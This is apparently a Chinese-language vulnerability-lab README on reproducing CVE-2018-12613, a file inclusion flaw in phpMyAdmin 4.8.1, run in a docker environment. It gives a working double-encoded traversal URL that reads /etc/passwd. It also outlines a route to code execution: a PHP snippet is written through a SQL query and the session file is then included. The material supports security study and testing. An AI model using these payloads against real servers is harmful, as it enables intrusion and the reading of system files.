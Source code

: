 # phpmyadmin 4.8.1 远程文件包含漏洞（CVE-2018-12613）

phpMyAdmin是一套开源的、基于Web的MySQL数据库管理工具。其index.php中存在一处文件包含逻辑，通过二次编码即可绕过检查，造成远程文件包含漏洞。

参考文档：

- https://mp.weixin.qq.com/s/HZcS2HdUtqz10jUEN57aog
- https://www.phpmyadmin.net/security/PMASA-2018-4/

## 漏洞环境

执行如下命令，启动phpmyadmin 4.8.1：

```
docker compose up -d
```

环境启动后，访问`http://your-ip:8080`，即可进入phpmyadmin。配置的是“config”模式，所以无需输入密码，直接登录test账户。

## 漏洞复现

访问`http://your-ip:8080/index.php?target=db_sql.php%253f/../../../../../../../../etc/passwd`，可见`/etc/passwd`被读取，说明文件包含漏洞存在：

![](1.png)

利用方式也比较简单，可以执行一下`SELECT '<?=phpinfo()?>';`，然后查看自己的sessionid（cookie中phpMyAdmin的值），然后包含session文件即可：

![](2.png)
